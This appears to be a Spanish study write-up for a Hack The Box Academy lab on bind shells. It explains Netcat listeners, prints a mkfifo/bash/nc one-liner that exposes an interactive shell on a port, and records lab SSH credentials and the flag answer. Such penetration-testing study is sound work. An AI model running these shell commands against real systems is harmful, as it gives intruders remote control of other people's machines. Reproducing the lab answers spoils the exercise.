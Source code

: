 Un _bind shell_ permite al pentester conectarse a un sistema objetivo a través de su shell. En este caso, el sistema **victima** inicia un _listener_ que espera conexiones entrantes.

1. El objetivo (target) inicia un listener en un puerto específico usando Netcat (nc).
```
nc -lvnp 7777
```

2. El atacante (cliente) se conecta al IP y puerto del objetivo:
```
nc -nv <IP_objetivo> 7777
````
3. Al conectarse, se establece un canal de comunicación (TCP), pero inicialmente solo permite enviar y recibir texto.

### Consideraciones

- Debe haber un listener activo en el objetivo.
- Los firewalls de red u OS pueden bloquear conexiones entrantes.
- NAT y PAT en redes públicas dificultan la conexión desde fuera.
- Más fácil de detectar que un _reverse shell_ por tráfico entrante.

### Estableciendo un bind shell real con Netcat

Para obtener control real del sistema y no solo enviar texto:

En la máquina víctima, se debería ejecutar:

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP_víctima> 7777 > /tmp/f
```

Este comando conecta la shell del servidor con Netcat, creando un canal bidireccional para que el atacante pueda enviar comandos y recibir respuestas.
En este comando, la **máquina víctima** tiene que reemplazar `<IP_objetivo>` por la **IP de la máquina atacante**, no la suya.

Máquina atacante ejecuta:
```
nc -nv <IP_víctima> 7777
```
Este comando se utiliza para conectarse al servidor y enviar comandos a la shell.

----
***QUESTIONS***
Target(s): 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS)
SSH to 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS) with user "htb-student" and password "HTB_@cademy_stdnt!" 

**1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?**
Respuesta: *443*

**2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

Ejecuto desde la máquina atacante un:
```
ssh htb-student@10.129.201.134
```

Ingreso la contraseña *HTB_@cademy_stdnt!*
Con un *whoami* me aseguro que sea *htb-student*.

La máquina ataca

Pongo a la máquina víctima en escucha por el puerto 8080, con el comando:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP_víctima> <puerto_víctima> > /tmp/f
```

Siendo el comando final:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 8080 > /tmp/f
```

El atacante, debe ejecutar:
```
sudo nc -nv <ip_vicitma> <puerto_víctima>

```

Se establece la conexión exitosamente:
```
┌─[eu-academy-3]─[10.10.14.95]─[htb-ac-1876550@htb-arqddjqiag]─[~]
└──╼ [★]$ sudo nc -nv 10.129.201.134 8080
(UNKNOWN) [10.129.201.134] 8080 (http-alt) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$    <-- listo para escribir comandos

```

Y realizo un *cat /customscripts/flag.txt*, viendo como salida: 
```
htb-student@ubuntu:~$ cat /customscripts/flag.txt
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```
Respuesta: *B1nD_Shells_r_cool*

